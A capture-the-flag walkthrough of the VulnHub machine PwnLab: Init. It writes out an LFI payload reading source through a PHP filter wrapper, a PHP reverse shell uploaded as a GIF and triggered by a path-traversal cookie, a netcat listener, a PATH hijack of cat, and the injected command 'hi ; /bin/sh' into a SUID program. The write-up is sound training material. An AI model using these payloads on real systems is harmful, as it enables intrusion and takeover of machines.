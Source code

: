 # PwnLab: Init Walkthrough | vulnhub
## Overview

This walkthrough details the exploitation process of the PwnLab: Init vulnerable machine from VulnHub. The machine involves multiple vulnerabilities including LFI, insecure file uploads, and privilege escalation misconfigurations.
Reconnaissance
Nmap Scan
```
nmap <ip>
```
Discovered open ports with port 80 being particularly interesting.
Web Enumeration
### LFI Vulnerability

Found ` /config.php ` directory through directory enumeration.

Exploited Local File Inclusion (LFI) using PHP wrappers:
text
```
http://site/?page=php://filter/convert.base64-encode/resource=config
```
Retrieved base64-encoded credentials from the configuration file.
Database Access
MySQL Connection Attempt
```
mysql -h <ip> -u root -p
```
`
Received SSL error: ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
Bypassing SSL Requirement`
```
mysql -h 192.168.1.46 -u root -p --skip-ssl
```
Extracting User Credentials
sql
```
MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | **************== |
| mike | **************== |
| kane | **************== |
+------+------------------+
```

### Web Application Access

Logged into the web application using discovered credentials.
File Upload Bypass

Uploaded PHP reverse shell disguised as GIF:
```
Filename: phpreverseshell.php.gif
```
LFI to RCE

Used LFI to read index.php source code:
text
```
http://site/?page=php://filter/convert.base64-encode/resource=index
```
Discovered `include()` function vulnerability allowing file inclusion and execution.
Reverse Shell
Setup Listener
```
nc -nlvp <listening_port>
```
Trigger Reverse Shell

Modified cookie to execute uploaded file:
text
```
lang=../upload/imagefile.gif
```
Successfully obtained reverse shell connection.
Privilege Escalation
### User Enumeration

Switched to user kent: su kent (limited access)

Attempted to switch to user mike: Permission denied

Successfully switched to user kane: su kane

Found Interesting File

Discovered executable `msgmike` in kane's directory.
`PATH` Manipulation

Created malicious cat executable in /tmp:

```
cd /tmp
echo /bin/bash > cat
chmod 777 cat
export PATH=/tmp:$PATH
cd
./msgmike
```
Successfully escalated to user mike.
Root Escalation

Found another executable msg2root in mike's directory.

Exploited command injection:

```
./msg2root
# When prompted for input:
hi ; /bin/sh
```
### Successfully obtained root shell.
Key Vulnerabilities Exploited

Local File Inclusion (LFI) with PHP wrappers

Insecure file upload with extension bypass

MySQL authentication without SSL requirement

Weak credential storage (base64 encoding)

    PATH environment variable manipulation

    Command injection in SUID binary
